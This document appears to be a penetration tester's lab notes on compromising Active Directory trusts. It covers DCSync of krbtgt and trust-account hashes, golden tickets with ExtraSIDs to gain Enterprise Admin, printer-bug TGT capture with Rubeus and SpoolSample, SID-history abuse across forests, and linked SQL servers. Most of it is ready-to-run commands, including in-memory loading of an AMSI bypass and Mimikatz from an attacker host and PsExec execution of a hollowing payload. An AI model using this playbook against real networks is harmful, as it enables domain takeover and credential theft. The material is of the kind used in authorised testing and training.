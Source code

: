 ### Theory & Enumeration
    //Theory:
        //allows domains to extend Kerberos authentication to each other - TGT from A is valid in B if B trusts A
        //can be one-way or two-way
        //tree structure - common
            //trust is transitive
        **Target: Enterprise Admins
    //Enumeration Trusts:
        //Method 1:  nltest /trusted_domains
            //Primary Domain = current domain
            //Direct Outbound & Direct Inbound = bidirectional trust
        //Method 2:  ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
        //Method 3 - PowerView:  Get-DomainTrust -API
            //From that next domain (if it isn't root):  Get-DomainTrust -API -Domain <abc.com>
        //Method 4:  Get-DomainTrust
        //Further enum w/ PowerView:
            ex.  Get-DomainUser -Domain corp1.com;  Get-NetGroupMember -GroupName "Enterprise Admins"

### Exploiting within a Forest
**Should be possible by default**
**WITHIN A FOREST - EX. ops.abc.com and abc.com - NOT abcedge.com and abc.com**

    //Exploitation:
        //Method 1: After compromising current domain, can create Enterprise Admin golden ticket via ExtraSID feature
        //Method 2: If local admin on server with Unconstrained Delegation, use Rubeus & PrintSpoofer to exploit new DC
        //Method 3: If no server w/ UD (but have domain admin), add a UD server and use PrintSpoofer exploit

    1. Owning the Forest w/ Extra SIDs - getting to Enterprise Admin via golden ticket:
        //If we compromise the krbtgt account password of our current domain, we can craft a golden ticket that contains an ExtraSid with group membership of Enterprise Admins.
        //assuming we've already compromised the current domain, we can create a TGT w/ group memberships from other domains
            //the ExtraSids field within the KERB_VALIDATION_INFO structure includes SIDs that originate in a foreign domain and show membership in a trusted domain
        //in a trust relationsip, each domain has a computer account with the name of the trusted other domain
            //the shared secret is the password hash of this account - same for both sides - used to encrypt the TGT instead of krbtgt hash
        //Dumping the shared secret/hash:
            lsadump::dcsync /domain:prod.corp1.com /user:corp1$

        //Steps:
            1. Get krbtgt hash via DCSync:
                lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
            2. Get domain SIDs for both domains:
                (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/amsi.txt') | IEX
                (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/PowerView.ps1') | IEX
                Get-DomainSID -Domain prod.corp1.com
                Get-DomainSID -Domain corp1.com
            3. Create golden ticket:
                (append 519 to sid for other domain)
                //username doesn't have to be valid - 519 makes us an enterprise admin
                // /domain is origin domain
                \\192.168.49.121\visualstudio\mimikatz.exe
                kerberos::golden /user:h4x /domain:prod.corp1.com /sid:S-1-5-21-3776646582-2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-1095350385-1831131555-2412080359-519 /ptt
                //Test:
                    c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd; whoami /all
                //Mimikatz in memory:
                    (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/amsi.txt') | IEX
                    (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/Invoke-Mimikatz10.ps1') | IEX
                    Invoke-Mimikatz -Command '"kerberos::golden /user:h4x /domain:ops.abc.com /sid:S-1-5-21-2032401531-514583578-4118054891 /krbtgt:7c7865e6e30e54e8845aad091b0ff447 /sids:S-1-5-21-1135011135-3178090508-3151492220-519 /ptt" "exit"'
                //RCE:
                    copy \\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\rdc02.abc.com\c$\windows\tasks
                    \\192.168.49.121\visualstudio\sysinternals\PsExec64.exe -accepteula \\rdc02.abc.com "c:\windows\tasks\Hollow.exe"

        //Other Method using Trust key:
            https://medium.com/r3d-buck3t/breaking-domain-trusts-with-forged-trust-tickets-5f03fb71cd72
            Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc-name
            Invoke-Mimikatz -Command '"Kerberos::golden /user: Administrator /domain: dollarcorp.moneycorp.local [child_domain] /sid: DomainAdmin_SID /sids: Enterprise_Admin_SID /rc4: Ticket HASH /service:krbtgt /target:moneycorp.local [root domain] /ticket: location to save the ticket"'
            Rubeus.exe asktgs /ticket: ticket Location /service: service type [cifs/mcorpdc.moneycorp.local] /dc: domain controller [mcorp-dc.moneycorp.local] /ptt
            dir \\mcorp-dc.moneycorp.local\c$
            
    2. Owning the Forest w/ Printers:
        //requires a server w/ Unconstrained Delegation
        //doesn't require Domain Admin (just local) - unless there's no UD server (then we could add one)
        //Steps:
            1. Confirm access to tgt DC spooler in other domain:
                ls \\rdc01\pipe\spoolss
            2. Start ticket monitor:
                Rubeus.exe monitor /interval:5 /filteruser:RDC01$
            3. Force print connection:
                .\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
            4. Use TGT:
                Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
                    (can't use DC computer account for RCE, but can use it for AD replication via DCSync to get admin's hash)
                lsadump::dcsync /domain:corp1.com /user:corp1\administrator

        **if we obtain Domain Admin privileges in prod.corp1.com through some other vector, we could configure a server with unconstrained Kerberos delegation and use that to compromise any other domain in the forest.

### Exploiting Additional Forests
**Trust Boundary by Default - Typically Requires Misconfigurations**

    //Enumeration:
        1. AD Trust Between Forests:
            //similar to that between domains, but can be restricted if selective authentication is configured
        2. Enumeration:
            1. Find Trusts:
                //Check for Trusts:
                    ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
                //Check for trusts in child domains of the other forest from corp1.com:
                    Get-DomainTrust -Domain corp1.com
                //*Automated:
                    Get-DomainTrustMapping
            2. Enumerate users/groups/etc. in the trusted forest:
                Get-DomainUser -Domain corp2.com | select name
                //***Look for users with same accounts in different forests - could share creds - service accts or regular users
                //****Look for foreign group membership of local users:
                    Get-DomainForeignGroupMember
                    Get-DomainForeignGroupMember -Domain <otherDomain>
                        convertfrom-sid S-1-5-21-3776646582-2086779273-4091361643-1601
                    //If we compromise the local user, we could gain access to the other forest (corp2.com)

    **a trust means auth requests are forwarded between them
    **External trusts enforce SID filtering - but you can still query AD in the other domain even if you can't exploit

    //Exploitation:
            //forest trust is supposed to be a security boundary, unlike domain trust
                //by default it is not possible to compromise a trusted forest even if we have completely compromised our current forest
        1. Extra SIDs:
            //SID Filtering prevents the cross-domain attack, but it could be manually disabled (and SID History enabled)
                //Check if enabled:  netdom trust <current.Domain.com> /domain:<tgtDomain.com> /quarantine
            //To Weaken - Enable SID History:
                Get-DomainTrust -Domain corp2.com
                //From corp2.com DC:  netdom trust corp2.com /d:corp1.com /enablesidhistory:yes
                Get-DomainTrust -Domain corp2.com
            //Try the Attack:
                //only works against SIDs w/ RID >= 1000
                    //look for custom group whose membership will allow us to compromise a user or computer (ex. a non-default admin group):
                        Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
                        //*the custom group must be a domain local security group, not a global security group (otherwise still filtered)
                lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
                Get-DomainSID -domain corp1.com
                Get-DomainSID -domain corp2.com
                kerberos::golden /user:h4x /domain:corp1.com /sid:S-1-5-21-1095350385-1831131555-2412080359 /krbtgt:22722f2e5074c2f03938f6ba2de5ae5c /sids:S-1-5-21-4182647938-3943167060-1815963754-1106 /ptt        
                c:\tools\SysinternalsSuite\PsExec.exe \\dc01.corp2.com cmd
        2. Linked SQL Servers in the Forest:
            //Locating Servers:
                //In my domain (prod.corp1.com):  setspn -T prod -Q MSSQLSvc/*
                //In my forest (corp1.com):  setspn -T corp1 -Q MSSQLSvc/*
                //In another forest (corp2.com):  setspn -T corp2 -Q MSSQLSvc/*
            //Attempt to log in with SQL.exe ...
            //Check for links and follow the link - check for new privs like before
